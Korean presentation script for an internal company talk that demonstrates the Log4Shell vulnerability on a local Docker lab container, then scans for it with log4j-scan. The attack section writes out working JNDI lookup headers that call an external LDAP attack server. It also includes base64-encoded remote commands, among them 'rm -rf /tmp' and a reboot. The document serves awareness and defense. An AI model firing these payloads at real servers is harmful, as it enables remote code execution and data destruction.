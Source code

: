 # log4j 공격 시연 시나리오 및 스캔 시연

> 사내 연말 Log4j 취약점 이슈 발표용 시연 시나리오

## 서버 세팅

### 1. 취약 서버(1번탭)

```zsh
docker start vulnerable-app
docker logs -f vulnerable-app
```

![1](https://raw.githubusercontent.com/Shane-Park/mdblog/main/presentation/log4shell.assets/1.png)

> 새로운 탭 `Ctrl+Shift+T`
>
> 2번탭:  `docker exec -it vulnerable-app ls -al /tmp` 해서 tmp 폴더 상태 띄워두기

![2](https://raw.githubusercontent.com/Shane-Park/mdblog/main/presentation/log4shell.assets/2.png)

### 2. 공격 서버

> 3번 탭 새로 하나 띄우고 `Ctrl+Shift+T`

```zsh
ssh cloud
java -jar /shane/attack.jar -i 146.56.44.96 -p 8888
```

![3](https://raw.githubusercontent.com/Shane-Park/mdblog/main/presentation/log4shell.assets/3.png)

### 3. Postman 실행

> Postman 크기를 적당히 조정해서 1번 tab의 로그가 갱신될 때 확인 가능하도록 해둠. Terminal Tab을 1번으로 돌려둠.

## 공격

> Postman에 요청

### Log4J가 JNDI LookUp을 하고 있는지 확인

```zsh
GET: localhost:9999
Header Key: X-Api-Version
Header Value: ${jndi:java:version}
```

![4](https://raw.githubusercontent.com/Shane-Park/mdblog/main/presentation/log4shell.assets/4.png)

> javq 버전 올라오는 것 확인 후, Tab을 공격 서버로 변경 (3번탭)

### LDAP 서버로 요청을 보내는지 확인

```zsh
GET: localhost:9999
Header Key: X-Api-Version
Header Value: ${jndi:ldap://146.56.44.96:1389/argonet}
```

> Postman 사용불가능할 경우 Terminal에서 curl로 요청
>
> ```zsh
> curl 127.0.0.1:9999 -H 'X-Api-Version: ${jndi:ldap://146.56.44.96:1389/argonet}'
> ```

![5](https://raw.githubusercontent.com/Shane-Park/mdblog/main/presentation/log4shell.assets/5.png)

- 공격 쿼리 전송

> 3번 tab에서 LDAP 요청 온것 확인 후, 1번탭에서 look up 한것 확인 후 다시 3번 탭 띄워둠.

### 쿼리로 보낼 커맨드 Base64로 인코딩

```zsh
echo -n 'touch /tmp/argonet.december-table' | base64
```

![6](https://raw.githubusercontent.com/Shane-Park/mdblog/main/presentation/log4shell.assets/6.png)

### 취약 서버에 명령어 전송

```zsh
PostMan으로 헤더에 X-Api-Version value 넣어서 요청 혹은 curl로 요청
curl 127.0.0.1:9 -H 'X-Api-Version: ${jndi:ldap://146.56.44.96:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9hcmdvbmV0LmRlY2VtYmVyLXRhYmxl}'
```

![7](https://raw.githubusercontent.com/Shane-Park/mdblog/main/presentation/log4shell.assets/7.png)

> Payload에 `touch /tmp/agronet.december-table` 이라는 커맨드를 담아 요청 한 것을 확인.

### 취약서버 공격 당한 흔적 확인

> 2번 Tab을 열어 같은 명령어를 그대로 쳐서 새로운 파일이 들어온 것을 확인

![8](https://raw.githubusercontent.com/Shane-Park/mdblog/main/presentation/log4shell.assets/8.png)

> 백도어가 간단하게 심어진다는 것을 설명. 파일 생성시간을 확인 시켜준다.

UTC 시간을 확인시켜 준다.

```zsh
date -u
```

![9](https://raw.githubusercontent.com/Shane-Park/mdblog/main/presentation/log4shell.assets/9.png)

폴더 삭제 시연

> 다시 공격 서버로 탭 3번 올려둠.

명령어 만들기 위해 새로운 창의 Terminal에서 tmp 폴더 삭제 명령어 인코딩 후 공격 코드 전송

```zsh
echo -n 'rm -rf /tmp' | base64
```

![10](https://raw.githubusercontent.com/Shane-Park/mdblog/main/presentation/log4shell.assets/10.png)

이후 두번째 탭에서 파일 삭제 된 것 확인

![11](https://raw.githubusercontent.com/Shane-Park/mdblog/main/presentation/log4shell.assets/11.png)

### reboot 명령까지 전송

> 3번탭에서 reboot 명령어 전송 된 것 확인 후 docker 컨테이너 종료 된 것 확인

![12](https://raw.githubusercontent.com/Shane-Park/mdblog/main/presentation/log4shell.assets/12.png)

<br><br>

공격 시연 끝 다시 발표로 돌아가기

## log4j scan 시연

일단 vulnerable-app 다시 실행 해 준다.

```zsh
docker start vulnerable-app
```

> 혹시 tmp 폴더를 지워버렸으면 docker 컨테이너가 실행이 안되니 /tmp 폴더를 생성 해줘야함
>
> 안그러면 서버가 계속 죽는다.
>
> ```zsh
> mkdir tmp
> docker cp ./tmp vulnerable-app:/
> docker start vulnerable-app
> ```

`docker logs -f vulnerable-app ` 해서 서버 잘 뜬거 확인 후

```zsh
git clone git@github.com:fullhunt/log4j-scan.git
```

```
cd log4j-scan
ls
pip3 install -r requirements.txt
python3 log4j-scan.py -u "http://gaia.best"
```

![13](https://raw.githubusercontent.com/Shane-Park/mdblog/main/presentation/log4shell.assets/13.png)

이번에는 취약 서버 확인

```zsh
python3 log4j-scan.py -u "http://localhost:9999"
```

![14](https://raw.githubusercontent.com/Shane-Park/mdblog/main/presentation/log4shell.assets/14.png)

Targets Affected 확인.

<br><br>

취약점 스캔 시연 끝. 발표로 돌아가기